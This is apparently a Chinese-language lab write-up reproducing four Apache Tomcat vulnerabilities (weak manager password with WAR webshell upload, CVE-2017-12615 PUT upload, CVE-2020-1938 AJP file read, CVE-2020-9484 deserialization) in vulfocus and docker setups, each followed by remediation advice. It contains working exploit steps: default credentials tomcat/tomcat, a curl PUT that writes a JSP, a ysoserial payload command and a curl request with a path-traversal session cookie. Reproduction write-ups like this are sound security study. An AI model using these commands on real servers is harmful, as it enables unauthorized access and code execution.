





## Tomcat漏洞复现

* [Tomcat漏洞复现](#tomcat漏洞复现)
  * [0x01 tomcat 弱口令Getshell](#0x01-tomcat-弱口令getshell)
    * [漏洞描述](#漏洞描述)
    * [影响版本](#影响版本)
    * [环境搭建](#环境搭建)
    * [复现过程](#复现过程)
    * [漏洞修复](#漏洞修复)
  * [0x02 tomcat 文件上传 (CVE\-2017\-12615)](#0x02-tomcat-文件上传-cve-2017-12615)
    * [漏洞简述](#漏洞简述)
    * [漏洞编号](#漏洞编号)
    * [影响版本](#影响版本-1)
    * [利用条件](#利用条件)
    * [环境搭建](#环境搭建-1)
    * [复现过程](#复现过程-1)
    * [漏洞修复](#漏洞修复-1)
  * [0x03 tomcat AJP 任意文件读取/包含漏洞（CVE\-2020\-1938）](#0x03-tomcat-ajp-任意文件读取包含漏洞cve-2020-1938)
    * [漏洞简述](#漏洞简述-1)
    * [影响版本](#影响版本-2)
    * [环境搭建](#环境搭建-2)
    * [复现过程](#复现过程-2)
    * [漏洞修复](#漏洞修复-2)
  * [0x04 tomcat 反序列化 （CVE\-2020\-9484）](#0x04-tomcat-反序列化-cve-2020-9484)
    * [漏洞简述](#漏洞简述-2)
    * [影响版本](#影响版本-3)
    * [环境搭建](#环境搭建-3)
    * [复现过程](#复现过程-3)
    * [漏洞修复](#漏洞修复-3)

------

### 0x01 tomcat 弱口令Getshell

#### 漏洞描述

```php
  Tomcat是Apache 软件基金会（Apache Software Foundation）的Jakarta 项目中的一个核心项目，由Apache、Sun 和其他一些公司及个人共同开发而成。 通过弱口令登录后台，部署war包geshell
```


#### 影响版本

```php
tomcat 全版本
```


#### 环境搭建

```php
vulfocus tomcat-pass-getshell 弱口令
```


#### 复现过程

1、打开tomcat管理页面 http://ip/manager/html，就是我们正常访问tomcat页面：



2、输入弱口令tomcat/tomcat成功登录到后台



3、将jsp Webshell压缩为zip，再将zip后缀改名为war，然后tomcat页面上上传war包


4、上传成功后会在管理页面上显示，接下来用蚁剑去连接


链接地址：http://ip/shell/shell.jsp




#### 漏洞修复

1）在系统上以低权限运行Tomcat应用程序。创建一个专门的 Tomcat服务用户，该用户只能拥有一组最小权限（例如不允许远程登录）。

2）增加对于本地和基于证书的身份验证，部署账户锁定机制（对于集中式认证，目录服务也要做相应配置）。在CATALINA_HOME/conf/web.xml文件设置锁定机制和时间超时限制。

3）以及针对manager-gui/manager-status/manager-script等目录页面设置最小权限访问限制。

4）后台管理避免弱口令。


------

###  0x02 tomcat 文件上传 (CVE-2017-12615)

#### 漏洞简述

```php
	2017年9月19日，Apache Tomcat 官方确认并修复了两个高危漏洞，漏洞 CVE 编号:CVE-2017-12615 和 CVE-2017-12616,该漏洞受影响版本为7.0-7.80之间，官方评级为高危，在一定条件下，攻击者可以利用这两个漏洞，获取用户服务器上 JSP 文件的源代码，或是通过精心构造的攻击请求，向用户服务器上传恶意 JSP 文件，通过上传的 JSP 文件 ，可在用户服务器上执行任意代码，从而导致数据泄露或获取服务器权限，存在高安全风险。
```


#### 漏洞编号

```php
CVE-2017-12615
```


#### 影响版本

```php
Apache Tomcat 7.0.0 - 7.0.79 (windows环境)
Apache Tomcat 7.0.0 - 7.0.80
```


#### 利用条件

- CVE-2017-12615 漏洞利用需要在 Windows 环境，且需要将 readonly 初始化参数由默认值设置为 false，经过实际测试，Tomcat 7.x 版本内 web.xml 配置文件内默认配置无 readonly 参数，需要手工添加，默认配置条件下不受此漏洞影响。
- CVE-2017-12616 漏洞需要在 server.xml 文件配置 VirtualDirContext 参数，经过实际测试，Tomcat 7.x 版本内默认配置无 VirtualDirContext 参数，需要手工添加，默认配置条件下不受此漏洞影响。


#### 环境搭建

```php
vulfocus tomcat 文件上传 (CVE-2017-12615)
```


#### 复现过程

1、第一种方式：通过curl发送PUT请求包进行文件上传

```
curl -X PUT "http://192.168.22.1:55358/1.jsp/" -d '<%out.println("hello world!");%>'
```


2、第二种方式：通过burpsuite发送数据包上传


#### 漏洞修复

1、 PUT默认是关闭的。如果开启了，可将conf/web.xml 中对于 DefaultServlet 的 readonly 设置为 true，才能防止漏洞。
2、升级到稳定版本。


------

### 0x03 tomcat AJP 任意文件读取/包含漏洞（CVE-2020-1938）

#### 漏洞简述

```php
	Tomcat 是一个小型的轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP 程序的首选。 该漏洞是由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件。若目标服务器同时存在文件上传功能，攻击者可进一步实现远程代码执行。
```


#### 影响版本

- Apache Tomcat 6
- 7 <= Apache Tomcat < 7.0.100
- 8 <= Apache Tomcat < 8.5.51
- 9 <= Apache Tomcat < 9.0.31


#### 环境搭建

```php
vulfocus tomcat 代码执行 (CVE-2020-1938)
```


#### 复现过程

1、扫描目标开放端口，开启了两个端口8080（tomcat服务）和8009（AJP服务）

```
nmap -p- -sV 172.17.0.3
```


2、访问目标主机8080端口，页面显示找不到页面，但从返回信息中得到了目标运行的tomcat版本为7.0.57


3、下载exp脚本进行攻击

下载地址：https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi




#### 漏洞修复

（1）临时禁用AJP协议端口，在conf/server.xml配置文件中注释掉：<Connector port="8009" protocol="AJP/1.3"redirectPort="8443" />

（2）配置ajp配置中的secretRequired跟secret属性来限制认证

（3）下载更新版本。


------

### 0x04 tomcat 反序列化 （CVE-2020-9484）

#### 漏洞简述

```php
 Apache Tomcat是由Apache软件基金会属下Jakarta项目开发的Servlet容器。 成功利用此漏洞需要同时满足以下4个条件: 1.攻击者能够控制服务器上文件的内容和文件名称； 2.服务器PersistenceManager配置中使用了FileStore； 3.PersistenceManager中的sessionAttributeValueClassNameFilter被配置为“null”，或者过滤器不够严格，导致允许攻击者提供反序列化数据的对象； 4.攻击者知道使用的FileStore存储位置到攻击者可控文件的相对路径
```


#### 影响版本

```php
Apache Tomcat 10.0.0-M1—10.0.0-M4
Apache Tomcat 9.0.0.M1—9.0.34
Apache Tomcat 8.5.0—8.5.54
Apache Tomcat 7.0.0—7.0.103
```


#### 环境搭建

```bash
sudo docker pull vision12345/cve-2020-9484
sudo docker run -p 8088:8080  --name tomcat -d vision12345/cve-2020-9484
```


#### 复现过程

（1）下载ysoserial 一个生成java反序列化 payload 的 .jar 包

执行下面语句生成 payload

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar Groovy1 "touch /tmp/2333" > /tmp/test.session
```


（2）用curl发起请求通过JSESSION加载恶意的session持久化文件

```bash
curl 'http://172.17.0.3:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../tmp/test'
```



（3）执行 ls -l /tmp 查看结果

```bash
ls -l /tmp
```


#### 漏洞修复

通用修补建议：

- 升级到 Apache Tomcat 10.0.0-M5 及以上版本
- 升级到 Apache Tomcat 9.0.35 及以上版本
- 升级到 Apache Tomcat 8.5.55 及以上版本
- 升级到 Apache Tomcat 7.0.104 及以上版本

临时修补建议：

禁止使用`Session`持久化功能`FileStore`。
